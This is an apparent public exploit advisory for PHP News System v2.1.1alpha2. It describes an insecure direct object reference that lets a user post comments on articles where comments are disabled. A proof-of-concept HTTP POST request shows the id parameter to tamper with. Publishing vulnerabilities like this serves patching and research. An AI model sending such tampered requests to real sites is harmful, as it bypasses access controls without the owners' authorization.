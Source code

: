 # Exploit Title: PHP News System v2.1.1alpha2 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/phpns/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHP News System
## Version: v2.1.1alpha2
## Exploit Description:
## PHP News System v2.1.1alpha2 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add comment to article that disable comment(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /shownews.php?a=3 HTTP/1.1
...
name=user3&email=user3%40test.com&website=&comment=user3&captcha=8&id=3(CHANGE HERE)&captcha_answer=NDg%3D
```